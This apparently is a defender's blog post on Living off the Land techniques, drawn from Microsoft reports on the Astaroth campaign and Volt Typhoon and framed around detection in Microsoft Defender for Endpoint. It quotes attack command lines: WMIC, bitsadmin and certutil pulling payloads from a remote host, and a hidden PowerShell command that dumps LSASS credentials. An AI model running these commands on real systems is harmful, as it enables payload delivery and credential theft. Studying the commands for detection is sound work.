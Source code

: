# LotL techniques with MDE detection - Part 1 
Hello everyone,

For a long time, I have seen Living off the Land (LotL) techniques discussed in Microsoft Security blogs, and recently I have been learning various attack techniques, especially those related to LotL. That's why I believe this is a great time to share my learning and detection insights in MDE through this blog.

### What is living off the land ?

[Microsoft Security blog](https://www.microsoft.com/en-us/security/blog/2018/09/27/out-of-sight-but-not-invisible-defeating-fileless-malware-with-behavior-monitoring-amsi-and-next-gen-av/) explains that “living off the land”, as malware only uses resources already available in the operating system.

I will show you how LotL techniques were used by attackers, based on past Microsoft Security blogs.



### [Astaroth “living-off-the-land”](https://www.microsoft.com/en-us/security/blog/2019/07/08/dismantling-a-fileless-campaign-microsoft-defender-atp-next-gen-protection-exposes-astaroth-attack/)
This is a somewhat older blog, but I love it because it includes some Windows LotL-related attacks in the attack flow.

1. LNK
1. WMI
2. Bitsadmin
3. Certutil

**LNK** : One common pattern is that an attacker creates a LNK file with a target path that executes a PowerShell command to download and run a malicious script from the internet.

**WMI** : Query the operating system (OS) for specific properties and then formats the output using a custom format file located at a URL.

```cmd
Wmic.exe os get ved5hit39, 25hit8, numberofusers /format:"https://storage.googleapis.com/ultramaker/09/v.txt"

Wmic.exe os get QMUTSQPK, JUXKBVOK, LNFTZKMH, freephyscialmemory /format:"https://storage.googleapis.com/ultramaker/08/vv.txt" 
```

**Bitsadmin / Certutil** : The commands bitsadmin and certutil can be exploited in cyberattacks, particularly in the context of malware delivery and command-and-control (C2) activities, such as downloading and uploading files.


```cmd
bitsadmin.exe /transfer msd5 /priority foreground https://storage.googleapis.com/ultramaker/x/ 09/falcvonxrenwb.jpg.zip.log? %PUBLIC%\Libraries\temporary\falxconxrenwb.jpg.z
```

```cmd
certutil.exe -urlcache -f "<URL/Payload>" "%Temp%\demo.exe"

certutil.exe -decode %PUBLIC%\Libraries\temporary\falxconxrenwb.jpg.z %PUBLIC%\Libraries\temporary\falxconxrenwb.~
```

![Astaroth](image.png)
> Astaroth “living-off-the-land” attack chain showing multiple legitimate tools abused
---

### [Volt Typhoon](https://www.microsoft.com/en-us/security/blog/2023/05/24/volt-typhoon-targets-us-critical-infrastructure-with-living-off-the-land-techniques/)

1. wmi
2. LSASS Process dumping (LotL)
   - cmd.exe / powershell.exe
   - rundll32.exe
   - base64 encode 

```powershell
cmd.exe /c powershell -exec bypass -W hidden -nop -E <Base64: rundll32.exe C:\Windows\System32\comsvcs.dll MiniDump PID lsass.dmp full>
```

![alt text](image-1.png)
>  Volt Typhoon attack diagram
---
- Mshta
- Regsvr32
- Scheduled Tasks

